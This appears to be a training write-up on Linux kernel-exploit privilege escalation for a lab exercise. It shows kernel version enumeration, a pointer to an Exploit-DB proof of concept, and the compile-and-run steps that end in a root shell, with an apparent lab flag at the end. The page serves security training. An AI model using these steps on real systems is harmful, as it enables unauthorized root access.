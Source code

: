 # Kernel Exploits

* [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195) -> A very well-known kernel exploit
* Kernel exploit can be as simple as downloading, compiling, and running it.
* Some exploits work out of the box, while others require modification.
* A quick way to identify exploits is to run `uname -a` and search Google for the kernel version.

### Kernel Exploit Example

```shell-session
uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```shell-session
cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

* Linux Kernel 4.4.0-116

{% embed url="https://www.exploit-db.com/exploits/44298" %}
for `linux 4.4.0-116-generic exploit` comes up with this exploit PoC
{% endembed %}

We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

```shell-session
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Next, we run the exploit and hopefully get dropped into a root shell.

```shell-session
./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Finally, we can confirm root access to the box.

```shell-session
root@htb[/htb]# whoami

root
```

## Assesment

Escalate privileges using the same Kernel exploit. Submit the contents of the flag.txt file in the /root/kernel\_exploit directory.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>46237b8aa523bc7e0365de09c0c0164f</p></figcaption></figure>
